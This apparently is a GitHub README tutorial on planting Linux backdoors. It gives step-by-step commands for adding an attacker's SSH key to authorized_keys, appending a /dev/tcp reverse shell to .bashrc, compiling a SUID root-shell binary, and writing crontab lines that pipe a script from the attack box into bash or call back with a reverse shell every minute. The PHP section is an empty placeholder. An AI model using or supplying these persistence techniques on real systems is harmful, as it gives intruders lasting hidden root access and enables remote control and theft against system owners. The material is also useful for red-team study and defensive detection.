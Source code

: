 # backdoors

1.ssh\
2.bashrc\
3.suid\
4.cron\
5.php

# //------------------------------------
# 1. SSH Key Access
SSH keys provide extreme convenience for system administrators, however, they also provide convenient backdoors for attackers. Start on your host by generating an SSH key with the command:
\
ssh-keygen\
\
![image](https://raw.githubusercontent.com/DDNvR/backdoors/main/images/sshkeygen.png)
\
This should generate two files an id_rsa.pub which is your public key, and id_rsa which is your private key.\
\
Now that the keys are generated switch back over to the target box and cd to your user's respective home directory (cd ~). As you can see in the image below there was no .ssh directory or authorized_keys file. This is no issue as you can create them with the commands:\
\
mkdir .ssh\
touch authorized_keys

![image](https://github.com/DDNvR/backdoors/blob/main/images/authorizedkeys.png)

\
With that taken care of, back on your attacker box, cat you id_rsa.pub (the public key and copy the entire output.

![image](https://github.com/DDNvR/backdoors/blob/main/images/keyshow.png)

\
All that is left to do is to echo the output of your id_rsa.pub into the authorized_keys file on the target box. I always like to double-check key was formatted properly by taking a look at the authorized_keys file. Alternatively to echoing the contents of your public key to the authorized_keys file, if you have ssh access to the target box you can utilize the text editor of your choice and copy + paste the contents.

![image](https://github.com/DDNvR/backdoors/blob/main/images/addkey.png)

\
Now to utilize the backdoor all you have to do is ssh to the target box and no matter what they change their password to you will always have key access to the host.\
\
Note: make sure to use -i [private key file] in your ssh command to specify you want to make use of key authentication.

# //------------------------------------
# Bashrc Backdoor
The .bashrc file, located in every user's home directory is rarely checked by the average user, making this one of my favorite spots to stick a backdoor.\
\
Ensure you are in your user’s home directory by issuing the command:\
\
cd ~\
\
Now that you are in their home directory simply echo the following and direct the output to append(not overwrite the .bashrc file):\
\
echo ‘bash -i >& /dev/tcp/[attack box ip address]/[port] 0>&1’ >> ~/.bashrc\
\
Confirm the aforementioned command completed successfully my examining the end of the .bashrc file with:\
\
tail ~/.bashrc\
\
With that established, all that is left to do is set up a listener. Now every time that user logs in to the box it will call out to your attack box on the specified port number! To simulate this in a lab environment simply exit the ssh session and re-login with the key persistence we set up earlier. This login will trigger the reverse shell to call out.

![image](https://github.com/DDNvR/backdoors/blob/main/images/bashrc.png)

# //------------------------------------
# SUID Backdoor
SUID binaries are a popular method to privilege escalate on a Linux system. For our final backdoor method, we are going to create our own that drops us into a root shell from a normal user. This method combined with a web shell can be a devastating combo, as you can go from a web shell to the root user in a matter of minutes.\
\
Note: This can be compiled on the target box provided it has gcc installed. In the case it does not (like in my example) I simply compiled it on my attack box and transferred the final product over to the target.\
\
Start by creating a C file with the following command\
\
echo ‘int main() { setresuid(0,0,0,); system(“/bin/sh”); }’ > privshell.c\
\
Compile this new C file to a system binary with:\
\
gcc -o privshell privshell.c\
\
Remove the original C file as seen in the image, and change the ownership of the file (if you created it as the root user it will already be owned by root, however it does not hurt to double-check).\
\
chown root:root privshell\
\
Add the SUID permissions to the file with:\
\
chmod u+s privshell\
\
Finally copy the file to a spot a normal user can access like /tmp or /var/tmp, and switch to a normal user.\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor.png)

\
All that is left to do is execute the new malicious SUID binary and gain root privileges without ever authenticating with a password!\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor2.png)

\
We covered a lot of ground today, thus I recommend finding two Linux virtual machines to practice these on. In the process of making this guide, I stumbled upon a lot of excellent resources if you would like to read further into the subject, happy hacking.

# //------------------------------------
# Cron Backdoor
Cron jobs are often overlooked by daily users, thus making them a great place for us to maintain our access. I will cover two different cron job back door methods leaving it up to you to decide which you prefer.\
\
The first involves creating a bash script with this command\
\
#!/bin/bash\
\
bash -i >& /dev/tcp/[ip address]/[port] 0>&1\
\
Secondly, in the same directory as your newly created bash script start a python3 web server with the command:\
\
python3 -m http.server\
\
Finally set up your netcat listener on the same port specified in your script\
\
nc -nlvp [port #]\
\
imagehere\
\
Now with all that set up and ready to go switch back over to the target box and edit your user’s crontab with the following command:\
\
crontab -e\
\
Add the following two lines to their crontab:\
\
#* * * * * shell ‘curl http://[attack box ip]/[file-name.sh] | bash’\
#* * * * * /bin/bash -c ‘/bin/bash -i >& /dev/tcp/[attack box ip]/[port] 0>&1’\
\
The first will request your hosted bash script and download it to the attack box. Then it will execute the script due to the “| bash” specification in the command.\
\
The second requires no script, or webserver to operate it simply calls back to your attack box with a reverse shell every minute.\

# //------------------------------------
# PHP Backdoor

asdfasdf\

# //------------------------------------
